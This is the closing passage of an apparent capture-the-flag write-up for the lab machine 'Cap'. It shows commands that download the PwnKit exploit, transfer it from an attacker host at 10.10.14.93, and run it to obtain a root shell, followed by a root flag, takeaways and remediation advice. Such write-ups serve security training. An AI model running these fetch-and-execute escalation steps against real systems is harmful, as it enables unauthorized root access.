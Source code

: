 ```bash
# On attacking machine
curl -fsSL https://raw.githubusercontent.com/ly4k/PwnKit/main/PwnKit -o PwnKit

# Transfer to target
python -m http.server 8000
```

```bash
# On target machine
curl http://10.10.14.93:8000/PwnKit -o PwnKit
chmod +x PwnKit
```

### Root Access

Executing the PwnKit exploit successfully escalated privileges to root:

```bash
./PwnKit
# root@cap:/home/nathan#
```

![](https://cdn.hashnode.com/res/hashnode/image/upload/v1756726937133/b4c8e96e-8c21-4b18-a296-a090231c82a1.png align="center")

**Root Flag:** `275b280d0b34b7b387122b9885386684`

## Key Takeaways

This machine highlighted several important security concepts:

1. **IDOR Vulnerabilities:** Improper access controls can expose sensitive data
    
2. **Credential Reuse:** Using the same passwords across services creates security risks
    
3. **Clear-text Protocols:** FTP transmits credentials in plain text
    
4. **Patch Management:** Keeping systems updated prevents known vulnerability exploitation
    

## Remediation Recommendations

* Implement proper authorization checks for data access
    
* Enforce strong, unique passwords for different services
    
* Use encrypted protocols (SFTP/SSH instead of FTP)
    
* Maintain regular system updates and security patches
    
* Monitor network traffic for suspicious activities
    

## Conclusion

Cap demonstrates how multiple security weaknesses can be chained together for complete system compromise. The attack path from IDOR to credential disclosure to privilege escalation shows the importance of defense in depth and regular security assessments.